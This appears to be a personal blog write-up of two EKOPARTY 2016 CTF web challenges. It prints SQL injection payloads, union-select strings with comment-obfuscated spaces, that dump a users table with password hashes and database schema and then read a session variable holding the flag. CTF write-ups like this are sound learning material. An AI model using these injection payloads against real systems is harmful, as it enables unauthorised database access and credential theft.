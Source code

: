 ```yaml
---
title: "EKOPARTY CTF"
date: 2016-10-28T20:25:29.000Z
tags:
  - "ctf"
  - "ekoparty"
feature_image: "content/images/2016/10/Zrzut-ekranu-2016-10-28-o-21.37.46.webp"
---
```


# EKOPARTY CTF

Another CTF during in the week - I hate that (I can't participate as much I as want too) but anyway I've took part in this CTF too.

My contribution:

  * tasks solved: 2
  * points: 150
  * time spent: 12h 32m

As stated above I've only managed to solved 2 tasks but actually one of them - web 100 - was quite interesting. It wasn't a difficult one but a lot of people had trouble with them.

# Super duper advanced attack

We were give a simple message:

> Can you find the flag?

> <http://0491e9f58d3c2196a6e1943adef9a9ab734ff5c9.ctf.site:20000>

The web100 task was a simple webpage that is shown below:

![](content/images/2016/10/Zrzut-ekranu-2016-10-28-o-21.38.50.webp)
You could very quickly find out that there's an SQL injection in the username field. But the more you look through the objects in the DB the more there was an impression that there is no flag there. And you could leak a lot from the DB. Everything in the `users` table:
[code]
    1 ferchu_papijas      17c4520f6cfd1ab53d8745e84681eb49
    2 el_peluca           5eb63bbbe01eeed093cb22bb8f5acdc3
    3 grandfather_fataku  8cbf64e506adb380e4938ee18c1def03
    4 henry_el_traba      200ceb26807d6bf99fd6f4f0d1ca54d4
    5 ana_lisa_melchotto  b5c0b187fe309af0f4d35982fd961d7e
    6 rosa_meltroso       33ee7e1eb504b6619c1b445ca1442c21
    7 mj_sex_machine      5f4dcc3b5aa765d61d8327deb882cf99
[/code]

`rosa_meltroso'/**/union/**/select/**/username,password/**/from/**/users#`

or ENGINES installed in mysql:
[code]
    1	CSV
    1	MRG_MYISAM
    1	MyISAM
    1	BLACKHOLE
    1	PERFORMANCE_SCHEMA
    1	InnoDB
    1	ARCHIVE
    1	MEMORY
    1	FEDERATED
[/code]

`rosa_meltroso'/**/union/**/SELECT/**/1,ENGINE/**/FROM/**/INFORMATION_SCHEMA.ENGINES#`

or even all the tables and all the columns!

[very long gist on github](https://gist.github.com/pawlos/a520762d6f0e65156dabda06b05478ed)

`rosa_meltroso'/**/union/**/SELECT/**/table_name,COLUMN_NAME/**/FROM/**/INFORMATION_SCHEMA.COLUMNS#`

You could dump all the data but there was no flag! I was going to write a tool that would extract all the values from all the columns but before I went on browsing through the [MySQL documentation](https://dev.mysql.com/doc/) and came across [CURRENT_USER()](https://dev.mysql.com/doc/refman/5.7/en/information-functions.html#function_current-user) and started wondering maybe the orgs have returned the flag there but `flag()` did not work. Executing some standard functions did get me nothing but I've remembered that there are some kind of global variables denoted with @ and started looking the same in mysql. Just to try out I went and executed statement like this:

`rosa_meltroso'/**/union/**/SELECT/**/1,@flag#`

and surprise, surprise - I got the flag (`EKO{do_not_forget_session_variables}`). Great!

This task was quite fun and looks like it was a bit of a challenge for people as one could see a lot of requests for a hint.
[code]
    [14:19]  are there any hints on web100?
    [14:32]  who is the admin for web 100?
    [15:03]   web 100..
    [15:10]  web 100 is confusing, flag is nowhere.....
    [15:19]  Web 100 Hints please, trying since last 10 hours
    [15:22]  *Web 100* I mean !
    [15:48]  somebody tell me, what the fuck web100 :D.
    [15:49]  Yeah I need to talk to a mod about web 100
    [15:50]  Same -.-
    [15:50]  Rip
    [15:50]  who are those 15 guys who solved that challenge -.-
    [15:58]  web150 - 41 solv, web100 - 15 0_o
    [15:59]  I have everything I need for web 100
    [15:59]  I just don't know where the flag is
    [15:59]  web100 seems to be kind of guessing bs stuff
    [16:40]  Heym, any admin for web 100?
    [16:40]  itay: +1 - ANY ADMIN for web100?
    [16:41]  +2
    [18:50]  any admins for web 100 online?
    [18:54]  yep, web100... not sure I understand the hint... :/ I'll wait for them to be back though :)
    [11:26]  hi ! can someone tell me what's web100
    [11:26]  ?
[/code]

I think I was 3rd (or somewhere around that) person who solved the challenge.

Later on in the CTF the organizes have revealed a clue:

> You don't need to search for the flag outside the DB, there is more than tables and columns in a DB.

and in the end it was solved by 103 teams.

# RFC 7230

This web task for 50 points I think is not worth mentioning but for the sake of completeness I will post a one line about it.

All it took to do it was to execute:

`curl -v ctf.ekoparty.org`

and check the response:

![](content/images/2016/10/Zrzut-ekranu-2016-10-28-o-17.50.15.webp)

as you can see the flag is there in the Server header. Not the most sophisticated task I must say. Anyway points collected!

Quite nice CTF. Had fun. I just need to solve more tasks next time.
